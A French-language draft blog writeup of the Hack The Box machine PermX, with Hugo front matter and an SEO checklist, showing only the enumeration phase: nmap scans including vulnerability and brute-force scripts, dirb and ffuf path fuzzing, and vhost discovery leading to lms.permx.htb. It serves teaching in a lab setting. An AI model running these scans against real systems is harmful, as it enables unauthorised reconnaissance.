



---


# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "PermX — HTB Easy Writeup & Walkthrough"
linkTitle: "PermX"
slug: "permx"
date: 2026-02-07T15:42:16+01:00
#lastmod: 2026-02-07T15:42:16+01:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Writeup générique de machine CTF : documentation de la phase d'énumération, exploitation du foothold, escalade de privilèges et capture des flags. Sert de modèle structuré pour rédiger les solutions détaillées"
description: "Writeup HTB Easy combinant approche pédagogique et analyse technique, avec énumération claire, compréhension de la vulnérabilité et progression structurée jusqu’à l’escalade."
tags: ["Easy"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Permx"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Permx"
  difficulty: "Easy | Medium | Hard"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Permx> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumérations

Dans un challenge **CTF Hack The Box**, tu commences **toujours** par une phase d’**énumération complète**.
C’est une étape incontournable : elle te permet d’identifier clairement ce que la machine expose avant toute tentative d’exploitation.

Concrètement, tu cherches à savoir quels **ports** sont ouverts, quels **services** sont accessibles, si une **application web** est présente, quels **répertoires** sont exposés et si des **sous-domaines ou vhosts** peuvent être exploités.

Pour réaliser cette énumération de manière structurée et reproductible, tu peux t’appuyer sur trois scripts :

- **** : identifie les ports ouverts et les services en écoute
- **** : énumère les répertoires et fichiers accessibles via le service web
- **** : détecte la présence éventuelle de sous-domaines et de vhosts

Tu retrouves ces outils dans la section **[Outils / Mes scripts](mes-scripts/)**.
Pour garantir des résultats pertinents en contexte **CTF HTB**, tu utilises une **wordlist dédiée**, installée au préalable grâce au script ****.
Cette wordlist est conçue pour couvrir les technologies couramment rencontrées sur Hack The Box.

------

Avant de lancer les scans, vérifie que permx.htb résout bien vers la cible. Sur HTB, ça passe généralement par une entrée dans /etc/hosts.

- Ajoute l’entrée `10.129.x.x permx.htb` dans `/etc/hosts`.

```bash
sudo nano /etc/hosts
```

- Lance ensuite le script  pour obtenir une vue claire des ports et services exposés :

```bash
mon-nmap permx.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/enum_ftp_smb_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (`scans_nmap/full_tcp_scan.txt`) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Sat Feb  7 15:50:00 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt permx.htb
Warning: 10.129.73.43 giving up on port because retransmission cap hit (6).
Nmap scan report for permx.htb (10.129.73.43)
Host is up (0.011s latency).
Not shown: 35037 filtered tcp ports (no-response), 30496 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sat Feb  7 15:51:15 2026 -- 1 IP address (1 host up) scanned in 74.85 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :
- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats de cette énumération sont enregistrés dans le fichier `scans_nmap/enum_ftp_smb_scan.txt`

```bash
# mon-nmap — ENUM FTP / SMB
# Target : permx.htb
# Date   : 2026-02-07T15:51:15+01:00

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour permx.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "permx.htb"

# Nmap 7.98 scan initiated Sat Feb  7 15:51:15 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt permx.htb
Nmap scan report for permx.htb (10.129.73.43)
Host is up (0.44s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   610.20 ms 10.10.16.1
2   618.05 ms permx.htb (10.129.73.43)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  7 15:52:00 2026 -- 1 IP address (1 host up) scanned in 44.64 seconds

```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Sat Feb  7 15:52:00 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt permx.htb
Nmap scan report for permx.htb (10.129.73.43)
Host is up (1.5s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
| http-headers: 
|   Date: Sat, 07 Feb 2026 14:52:03 GMT
|   Server: Apache/2.4.52 (Ubuntu)
|   Last-Modified: Sat, 20 Jan 2024 14:59:26 GMT
|   ETag: "8d56-60f61d7bd0f80"
|   Accept-Ranges: bytes
|   Content-Length: 36182
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: eLEARNING
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; html: 5
|     /css/
|       css: 1
|     /img/
|       jpg: 7
|     /js/
|       js: 1
|     /lib/animate/
|       css: 1
|     /lib/easing/
|       js: 1
|     /lib/owlcarousel/
|       js: 1
|     /lib/waypoints/
|       js: 1
|     /lib/wow/
|       js: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /lib/animate/
|   Total files found (by extension):
|_    Other: 1; css: 2; html: 5; jpg: 7; js: 5
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  7 15:52:39 2026 -- 1 IP address (1 host up) scanned in 39.35 seconds
```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
Nmap scan report for permx.htb (10.129.73.43)
Host is up (0.025s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

# Nmap done at Sat Feb  7 15:52:41 2026 -- 1 IP address (1 host up) scanned in 1.72 seconds
```


### Énumération des chemins web avec `mon-recoweb`
Pour la découverte des chemins web, tu utilises le script dédié 

```bash
mon-recoweb permx.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier RESULTS_SUMMARY.txt te permet alors d’identifier rapidement les chemins réellement intéressants, sans avoir à parcourir l’ensemble des logs générés par les outils.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.0

Cible        : permx.htb
Périmètre    : /
Date début   : 2026-02-07 16:16:18

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://permx.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_dirs.json 2>&1 | tee scans_recoweb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_files.json 2>&1 | tee scans_recoweb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://permx.htb/404.html (CODE:200|SIZE:10428)
http://permx.htb/about.html (CODE:200|SIZE:20542)
http://permx.htb/. (CODE:200|SIZE:36182)
http://permx.htb/contact.html (CODE:200|SIZE:14753)
http://permx.htb/courses.html (CODE:200|SIZE:22993)
http://permx.htb/css/
http://permx.htb/css/ (CODE:301|SIZE:304)
http://permx.htb/.htaccess.bak (CODE:403|SIZE:274)
http://permx.htb/.htaccess (CODE:403|SIZE:274)
http://permx.htb/.htc (CODE:403|SIZE:274)
http://permx.htb/.ht (CODE:403|SIZE:274)
http://permx.htb/.htgroup (CODE:403|SIZE:274)
http://permx.htb/.htm (CODE:403|SIZE:274)
http://permx.htb/.html (CODE:403|SIZE:274)
http://permx.htb/.htpasswd (CODE:403|SIZE:274)
http://permx.htb/.htpasswds (CODE:403|SIZE:274)
http://permx.htb/.htuser (CODE:403|SIZE:274)
http://permx.htb/img/
http://permx.htb/img/ (CODE:301|SIZE:304)
http://permx.htb/index.html (CODE:200|SIZE:36182)
http://permx.htb/js/
http://permx.htb/js/ (CODE:301|SIZE:303)
http://permx.htb/lib/
http://permx.htb/lib/ (CODE:301|SIZE:304)
http://permx.htb/LICENSE.txt (CODE:200|SIZE:1422)
http://permx.htb/.php (CODE:403|SIZE:274)
http://permx.htb/server-status (CODE:403|SIZE:274)
http://permx.htb/server-status/ (CODE:403|SIZE:274)
http://permx.htb/team.html (CODE:200|SIZE:14806)
http://permx.htb/testimonial.html (CODE:200|SIZE:13018)
http://permx.htb/wp-forum.phps (CODE:403|SIZE:274)

=== Détails par outil ===

[DIRB]
http://permx.htb/css/
http://permx.htb/img/
http://permx.htb/index.html (CODE:200|SIZE:36182)
http://permx.htb/js/
http://permx.htb/lib/
http://permx.htb/server-status (CODE:403|SIZE:274)

[FFUF — DIRECTORIES]
http://permx.htb/css/ (CODE:301|SIZE:304)
http://permx.htb/img/ (CODE:301|SIZE:304)
http://permx.htb/js/ (CODE:301|SIZE:303)
http://permx.htb/lib/ (CODE:301|SIZE:304)
http://permx.htb/server-status/ (CODE:403|SIZE:274)

[FFUF — FILES]
http://permx.htb/404.html (CODE:200|SIZE:10428)
http://permx.htb/about.html (CODE:200|SIZE:20542)
http://permx.htb/. (CODE:200|SIZE:36182)
http://permx.htb/contact.html (CODE:200|SIZE:14753)
http://permx.htb/courses.html (CODE:200|SIZE:22993)
http://permx.htb/.htaccess.bak (CODE:403|SIZE:274)
http://permx.htb/.htaccess (CODE:403|SIZE:274)
http://permx.htb/.htc (CODE:403|SIZE:274)
http://permx.htb/.ht (CODE:403|SIZE:274)
http://permx.htb/.htgroup (CODE:403|SIZE:274)
http://permx.htb/.htm (CODE:403|SIZE:274)
http://permx.htb/.html (CODE:403|SIZE:274)
http://permx.htb/.htpasswd (CODE:403|SIZE:274)
http://permx.htb/.htpasswds (CODE:403|SIZE:274)
http://permx.htb/.htuser (CODE:403|SIZE:274)
http://permx.htb/index.html (CODE:200|SIZE:36182)
http://permx.htb/LICENSE.txt (CODE:200|SIZE:1422)
http://permx.htb/.php (CODE:403|SIZE:274)
http://permx.htb/team.html (CODE:200|SIZE:14806)
http://permx.htb/testimonial.html (CODE:200|SIZE:13018)
http://permx.htb/wp-forum.phps (CODE:403|SIZE:274)

```


### Recherche de vhosts avec `mon-subdomains`

Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains permx.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains permx.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-02-07 16:21:21
Domaine      : permx.htb
IP           : 10.129.73.43
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 1
  - lms.permx.htb

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=302 size=286 words=26 (Host=5yu6ql290i.permx.htb)
  Baseline#2: code=302 size=286 words=26 (Host=udql2s539y.permx.htb)
  Baseline#3: code=302 size=286 words=26 (Host=szegbbegfm.permx.htb)
  After-redirect#1: code=200 size=36182 words=2466
  After-redirect#2: code=200 size=36182 words=2466
  After-redirect#3: code=200 size=36182 words=2466
  VHOST (1)
    - lms.permx.htb


=== mon-subdomains permx.htb END ===


```


## Exploitation – Prise pied (Foothold)

Les résultats de `mon-nmap` et `mon-subdomains` te conduisent naturellement vers l’application e-learning accessible sur `lms.permx.htb`. Avant toute tentative d’exploitation, tu lances donc un `mon-recoweb` ciblé sur ce virtual host, afin d’identifier les pages, répertoires et fonctionnalités susceptibles de mener à un premier point d’appui.

### Énumération web de lms.permx.htb avec mon-recoweb

Avant toute tentative d’exploitation, tu commences par analyser l’application e-learning via un `mon-recoweb` sur `lms.permx.htb`, ce qui te permet d’obtenir une vue claire de sa structure interne et des fonctionnalités accessibles.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.1

Cible        : lms.permx.htb
Périmètre    : /
Date début   : 2026-02-08 17:37:32

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://lms.permx.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/lms.permx.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://lms.permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/lms.permx.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/lms.permx.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://lms.permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/lms.permx.htb/ffuf_files.json 2>&1 | tee scans_recoweb/lms.permx.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://lms.permx.htb/app/
http://lms.permx.htb/app/ (CODE:301|SIZE:312)
http://lms.permx.htb/bin/
http://lms.permx.htb/bin/ (CODE:301|SIZE:312)
http://lms.permx.htb/certificates/
http://lms.permx.htb/certificates/ (CODE:301|SIZE:321)
http://lms.permx.htb/. (CODE:200|SIZE:19348)
http://lms.permx.htb/custompages/ (CODE:301|SIZE:320)
http://lms.permx.htb/documentation/
http://lms.permx.htb/documentation/ (CODE:301|SIZE:322)
http://lms.permx.htb/favicon.ico (CODE:200|SIZE:2462)
http://lms.permx.htb/.htaccess.bak (CODE:403|SIZE:278)
http://lms.permx.htb/.htaccess (CODE:403|SIZE:278)
http://lms.permx.htb/.htc (CODE:403|SIZE:278)
http://lms.permx.htb/.ht (CODE:403|SIZE:278)
http://lms.permx.htb/.htgroup (CODE:403|SIZE:278)
http://lms.permx.htb/.htm (CODE:403|SIZE:278)
http://lms.permx.htb/.html (CODE:403|SIZE:278)
http://lms.permx.htb/.htpasswd (CODE:403|SIZE:278)
http://lms.permx.htb/.htpasswds (CODE:403|SIZE:278)
http://lms.permx.htb/.htuser (CODE:403|SIZE:278)
http://lms.permx.htb/index.php (CODE:200|SIZE:19356)
http://lms.permx.htb/index.php (CODE:200|SIZE:19452)
http://lms.permx.htb/LICENSE (CODE:200|SIZE:35147)
http://lms.permx.htb/LICENSE/ (CODE:200|SIZE:35147)
http://lms.permx.htb/license.txt (CODE:200|SIZE:1614)
http://lms.permx.htb/main/
http://lms.permx.htb/main/ (CODE:301|SIZE:313)
http://lms.permx.htb/news_list.php (CODE:200|SIZE:13995)
http://lms.permx.htb/.php (CODE:403|SIZE:278)
http://lms.permx.htb/plugin/
http://lms.permx.htb/plugin/ (CODE:301|SIZE:315)
http://lms.permx.htb/robots.txt (CODE:200|SIZE:748)
http://lms.permx.htb/server-status (CODE:403|SIZE:278)
http://lms.permx.htb/server-status/ (CODE:403|SIZE:278)
http://lms.permx.htb/src/
http://lms.permx.htb/src/ (CODE:301|SIZE:312)
http://lms.permx.htb/terms.php (CODE:200|SIZE:16127)
http://lms.permx.htb/user.php (CODE:302|SIZE:0)
http://lms.permx.htb/vendor/
http://lms.permx.htb/vendor/ (CODE:301|SIZE:315)
http://lms.permx.htb/web/
http://lms.permx.htb/web/ (CODE:301|SIZE:312)
http://lms.permx.htb/web.config (CODE:200|SIZE:5780)
http://lms.permx.htb/whoisonline.php (CODE:200|SIZE:15471)
http://lms.permx.htb/wp-forum.phps (CODE:403|SIZE:278)

=== Détails par outil ===

[DIRB]
http://lms.permx.htb/app/
http://lms.permx.htb/bin/
http://lms.permx.htb/certificates/
http://lms.permx.htb/documentation/
http://lms.permx.htb/favicon.ico (CODE:200|SIZE:2462)
http://lms.permx.htb/index.php (CODE:200|SIZE:19452)
http://lms.permx.htb/LICENSE (CODE:200|SIZE:35147)
http://lms.permx.htb/main/
http://lms.permx.htb/plugin/
http://lms.permx.htb/robots.txt (CODE:200|SIZE:748)
http://lms.permx.htb/server-status (CODE:403|SIZE:278)
http://lms.permx.htb/src/
http://lms.permx.htb/vendor/
http://lms.permx.htb/web/
http://lms.permx.htb/web.config (CODE:200|SIZE:5780)

[FFUF — DIRECTORIES]
http://lms.permx.htb/app/ (CODE:301|SIZE:312)
http://lms.permx.htb/bin/ (CODE:301|SIZE:312)
http://lms.permx.htb/certificates/ (CODE:301|SIZE:321)
http://lms.permx.htb/custompages/ (CODE:301|SIZE:320)
http://lms.permx.htb/documentation/ (CODE:301|SIZE:322)
http://lms.permx.htb/LICENSE/ (CODE:200|SIZE:35147)
http://lms.permx.htb/main/ (CODE:301|SIZE:313)
http://lms.permx.htb/plugin/ (CODE:301|SIZE:315)
http://lms.permx.htb/server-status/ (CODE:403|SIZE:278)
http://lms.permx.htb/src/ (CODE:301|SIZE:312)
http://lms.permx.htb/vendor/ (CODE:301|SIZE:315)
http://lms.permx.htb/web/ (CODE:301|SIZE:312)

[FFUF — FILES]
http://lms.permx.htb/. (CODE:200|SIZE:19348)
http://lms.permx.htb/favicon.ico (CODE:200|SIZE:2462)
http://lms.permx.htb/.htaccess.bak (CODE:403|SIZE:278)
http://lms.permx.htb/.htaccess (CODE:403|SIZE:278)
http://lms.permx.htb/.htc (CODE:403|SIZE:278)
http://lms.permx.htb/.ht (CODE:403|SIZE:278)
http://lms.permx.htb/.htgroup (CODE:403|SIZE:278)
http://lms.permx.htb/.htm (CODE:403|SIZE:278)
http://lms.permx.htb/.html (CODE:403|SIZE:278)
http://lms.permx.htb/.htpasswd (CODE:403|SIZE:278)
http://lms.permx.htb/.htpasswds (CODE:403|SIZE:278)
http://lms.permx.htb/.htuser (CODE:403|SIZE:278)
http://lms.permx.htb/index.php (CODE:200|SIZE:19356)
http://lms.permx.htb/license.txt (CODE:200|SIZE:1614)
http://lms.permx.htb/news_list.php (CODE:200|SIZE:13995)
http://lms.permx.htb/.php (CODE:403|SIZE:278)
http://lms.permx.htb/robots.txt (CODE:200|SIZE:748)
http://lms.permx.htb/terms.php (CODE:200|SIZE:16127)
http://lms.permx.htb/user.php (CODE:302|SIZE:0)
http://lms.permx.htb/web.config (CODE:200|SIZE:5780)
